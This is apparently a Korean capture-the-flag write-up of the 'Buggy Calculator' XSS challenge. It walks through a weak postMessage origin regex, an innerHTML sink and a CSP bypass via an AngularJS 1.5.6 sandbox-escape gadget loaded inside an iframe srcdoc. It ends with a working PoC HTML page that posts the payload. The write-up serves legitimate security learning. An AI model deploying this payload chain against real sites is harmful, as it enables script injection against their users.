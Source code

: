 ## Descriptions

Buggy Calculator 문제는 CSP 및 SOP를 우회하고 XSS를 트리거 하는 문제이다.

---
## Analysis

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/1.png?raw=true)

문제로 들어오면 위와 같이 계산기가 있는 것을 볼 수 있고, 우리가 일반적으로 사용하는 방식과 동일하고, 숫자 및 연산자를 제외한 값들은 사용할 수 없다. 일단 여기에서는 따로 할 수 있거나 알 수 있는 게 없기 때문에 코드를 확인 해 보기로 했다.


```html
<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' 'self'; object-src 'none'">
```
일단 코드를 보니 제일 위에 `meta`를 이용해서 `CSP`를 설정하고 있는 것을 볼 수 있다. CSP가 설정이 되어 있기 때문에 `<script>`, `<img>`와 같은 태그들을 이용해서 XSS 익스 시도를 할 수 있지만 CSP에 의해서 스크립트 실행은 되지 않을 것 이다. 그렇기 때문에 일단 해야 할 것 중 하나는 CSP 우회이다.

```html
		<script src="angular.min.js"></script>
		<script src="jquery.min.js"></script>
		<script src="script.js"></script>
```
밑으로 가서 코드를 확인해 보니 위와 같이 리소스 파일을 랜더링 하는 것을 볼 수 있다. 여기서 중요한 부분은 `angular.min.js` 파일을 랜더링 해온다는 것 이다. ` AngularJS`에서 사용되는 가젯들을 이용해서 XSS 익스를 시도할 수 있는데, 이를 이용하면 `CSP`를 쉽게 우회할 수 있을 거 같다.

```
/*
 AngularJS v1.5.6
 (c) 2010-2016 Google, Inc. http://angularjs.org
 License: MIT
*/
```
` AngularJS`의 버전을 확인해 보니 `1.5.6`인 것을 볼 수 있다. 버전마다 사용하는 가젯이 다르기 때문에 이제 해당 버전을 기반으로 해서 XSS 페이로드를 찾으면 된다. 나는 Owasp PDF에서 찾았다.

```js
function sendEquation(msg){
	theiframe.postMessage(msg);
}
```
```html
<iframe name="theiframe" style="height:65px;width:100%; left:-100px; margin-top:-05px;margin-bottom:-30px;" frameBorder="0" src="frame.html"></iframe>
```
위 리소스 파일들을 보면 `script.js` 파일도 랜더링 하는 것을 볼 수 있는데, 코드를 확인해보면 제일 밑에 위와 같이 `theiframe`라는 `iframe`으로 `postMessage` 메서드를 이용해서 값을 전달해주는 것을 볼 수 있고, 코드를 보면 위와 같이 `frame.html`을 끌어와서 사용하는 것도 볼 수 있다.

```html

<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<meta http-equiv="Content-Security-Policy" content="script-src 'unsafe-eval' 'self'; object-src 'none'">
		<link href='https://fonts.googleapis.com/css?family=Ubuntu:400,700' rel='stylesheet' type='text/css'>
		<script src="frame.js"></script>
		<style>
		html {
			clear: both;
			font-family: digital;
			font-size: 24px;
			text-align: right;
			letter-spacing: 5px;
		    font-family: 'Ubuntu', sans-serif;
		    overflow: hidden;
		}
		</style>
		<title></title>
	</head>
	<body>
		0
	</body>
</html>
```
위 코드는 `frame.html`의 코드인데 잘 보면 `frame.js`를 끌어와서 사용하는 것을 볼 수 있다. 지금까지 분석을 통해서 알 수 있는 건 게산기를 통해서 `1+1`을 입력 받고, 이를 `postMessage` 메서드를 이용해서 `frame.html`로 전달 하고, `frame.js`에서 특정 로직을 거치고 `<body>`의 삽입하는 거 같다. 즉, 우리가 원하는 값을 `body`의 삽입할 수 있으면 XSS 트리거를 할 수 있다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/2.png?raw=true)

즉, 위 부분이 `frame.html`이라고 봐도 무방하다.

```js
window.addEventListener("message", receiveMessage, false);

function receiveMessage(event) {

	// verify sender is trusted
	if (!/^http:\/\/calc.buggywebsite.com/.test(event.origin)) {
		return
	}
	
	// display message 
	msg = event.data;
	if (msg == 'off') {
		document.body.style.color = '#95A799';
	} else if (msg == 'on') {
		document.body.style.color = 'black';
	} else if (!msg.includes("'") && !msg.includes("&")) {
		document.body.innerHTML=msg;
	}
}
```
위 코드는 `frame.js`의 코드이다. 잘 보면 `postMessage` 메서드로 전달 받은 값을 `receiveMessage` 메서드로 받고, 처리하는 것을 볼 수 있다. 이때 조건문을 이용해서 origin을 확인하는 것을 볼 수 있다. 즉, 해당 프레임으로 요청을 보낼 수 있는 건 `http://calc.buggywebsite.com`라는 오리진을 가진 애들이다.

```js
if (!/^http:\/\/calc.buggywebsite.com/.test("http://calc.buggywebsite.com.example.com")) {
    console.log("Same Origin Plz..");
}
> undefined
```
조건문을 위와 같이 확인을 해보면 정규식이 `^` 이기 때문에 `http://calc.buggywebsite.com.example.com`와 같은 오리진을 가진 사이트에서 요청을 보내줘도 필터링에 걸리지 않는 것을 볼 수 있다. `https://bugpoc.com/` 에서 프론트 엔드를 원하는 오리진으로 생성할 수 있는데 이를 이용해서 poc 코드를 올려주게 되면 위 구문은 쉽게 우회할 수 있다.

그리고 오리진 검사 로직을 통과하게 되면 msg 값을 조건문을 상황에 맞게 실행시키는 것을 볼 수 있는데, 여기서 제일 밑 조건문 내부를 보면 msg의 값을 innserHTML 메서드를 이용해서 돔 내부에 삽입하는 것을 볼 수 있는데 HTML 5에서는 innserHTML의 값으로 `<script>`가 들어오게 되면 스크립트 태그를 실행시키지 않기 때문에 `<script>` 태그를 제외한 나머지 태그를 이용해서 XSS 트리거를 해야 한다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/3.png?raw=true)

그래서 이미지 태그를 이용해서 XSS를 트리거 하려 했지만 frame.html에도 csp가 설정이 되어 있어 csp에 걸리는 것을 볼 수 있다. 결국에는 AngularJS 가젯을 이용해서 XSS를 트리거 해야 하는데 `frame.html`에는 `angular.min.js` 파일이 랜더링 되어 있지 않기 때문에 `<script>` 태그를 이용해서 불러와줘야 한다. 그치만 우리는 `<script>` 태그를 사용할 수 없다.

하지만 `<iframe>` 태그의 srcdoc 속성을 이용해서 프레임 내에 `<script>` 태그를 이용하면 iframe 내부에서 별도로 코드를 실행 시키기 때문에 이를 우회하고 스크립트 태그를 실행 시킬 수 있다. 

```html
<iframe srcdoc="<script src=/angular.min.js></script><div ng-app>{{ 7*7 }}</div>"></iframe>
```
그래서 위와 같이 페이로드를 작성해주었다. socdoc를 보면 `<script>` 태그를 이용해서 앵귤러 파일을 랜더링 해준 후에 앵귤러 표현식을 이용해 주었다. `<div>` 태그의 들어 있는 `ng-app`은 이 태그를 기준으로 앵귤러를 사용하겠다는 지시문이다. 

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/4.png?raw=true)

돔으로 넣어주니 iframe 내에서 스크립트 태그가 잘 실행 됐고, 앵귤러 표현식도 잘 되는 것을 볼 수 있었다.

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/5.png?raw=true)

이제 앵귤러 표현식으로 가젯을 이용해서 alert() 함수를 실행 시켜 주면 된다. 가젯을 이용한 XSS Poc 코드는 [Owasp](https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf)에서 확인할 수 있었다. 위 사진을 보면 `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}`가 있는 것을 볼 수 있고 해당 Poc를 이용하면 XSS를 트리거 할 수 있다.

---
## Exploit

![](https://github.com/wjddnjs33/Poc/blob/main/wargame/xss%20challenge/Buggy%20Calculator/images/trigger.gif?raw=true)

---
## Poc (Sollution)

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Poc XSS about Calculate</title>
    </head>
    <script>
        const win = window.open('http://calc.buggywebsite.com/frame.html');
        const exploit = function(){
            setTimeout(function(){ win.postMessage(["<iframe srcdoc=\"<script src=/angular.min.js><\/script><div ng-app>{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(document.domain)');}}</div>\"></iframe>"],'*') }, 3000);
        }
      </script>
    <body>
        <h1>BugPoc XSS Challenge</h1>

        <h3>If you click the button below and execute poc code, You can trigger the xss.</h3>
        <input type="button" onclick=exploit() value="Trigger">
    </body>
</html>
```

---
## Reference

[https://munhwasudo.tistory.com](https://munhwasudo.tistory.com/entry/2-ngapp-nginit-%EC%82%AC%EC%9A%A9%ED%95%98%EA%B8%B0-AngularJS%EA%B0%9C%EB%85%90-%EA%B0%84%EB%8B%A8%ED%95%9C-todo%EA%B0%9D%EC%B2%B4-%EB%A7%8C%EB%93%A4%EC%96%B4%EB%B3%B4%EA%B8%B0)<br>
[https://developer.mozilla.org/ko/docs/Web/API/Window/postMessage](https://developer.mozilla.org/ko/docs/Web/API/Window/postMessage)<br>
[https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf](https://owasp.org/www-chapter-london/assets/slides/OWASPLondon20170727_AngularJS.pdf)

---

